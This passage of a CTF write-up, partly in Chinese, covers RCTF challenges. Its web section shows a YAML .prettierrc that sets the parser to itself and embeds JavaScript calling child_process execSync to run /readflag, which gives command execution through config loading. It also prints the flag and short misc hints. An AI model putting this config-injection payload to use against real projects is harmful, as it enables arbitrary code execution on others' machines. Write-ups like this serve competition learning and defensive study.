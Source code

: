 * A "prettier" key in your package.json file.
* A .prettierrc file written in JSON or YAML.
* A .prettierrc.json, .prettierrc.yml, .prettierrc.yaml, or .prettierrc.json5 file.
* A .prettierrc.js, .prettierrc.cjs, prettier.config.js, or prettier.config.cjs file that exports an object using module.exports.
* A .prettierrc.toml file.

use .prettierrc as YAML and insert js code

```
trailingComma: "es5"
tabWidth: 4
semi: false
singleQuote: true
parser: ".prettierrc"
d: var load = global.process.mainModule.constructor._load
a: function exec(cmd){return load('child_process').execSync(cmd).toString()}
b: var flag = exec("/readflag")
p1: function babel(text, parsers, opts = {}) {return text+flag};
p2: module.exports=babel
```

load custom parser to run evil code

![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBQCZwI04xibcDBuicf9o9prd2JBqdxzfcNoCGhbKS9ONFdT7N2phR58RowsNFO93icVbJxI2SU844UeA/640?wx_fmt=png)

RCTF{pReTtiErRc.yAmL.iS.fUnnY}

### filechecker\_plus

解题思路
应该是别人打通了 上车了 直接看到flag了

![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBQCZwI04xibcDBuicf9o9prd2U1FNVMJ9ybK9jPe3P7xBf35VoiaugM5H2dx2917t5GzYWDGGb5lm7WQ/640?wx_fmt=png)

## Misc

### Checkin

解题思路

![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBQCZwI04xibcDBuicf9o9prd2jCA41LEuPfHq4M83tpBRuTD7Zg6Iyoa6JnuibaTk5lh4U4FM1wdpM0A/640?wx_fmt=png)

### ez\_alient

解题思路
在alien.bmp的结尾发现base64，解码得到压缩包密码
pwd="N0bOdy\_l0ves\_Me"
查看解压出来的文件特征可知这是一个Windows可执行文件，修改后缀为exe

解包并反编译pyc可以在alien\_invasion类中看见部分flag

![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBQCZwI04xibcDBuicf9o9prd2FzgEuOqiatJIfcuDtdDFaCok49hr7DTt4pgE9VMJX8ia4iciaXicjicxHOeg/640?wx_fmt=png)
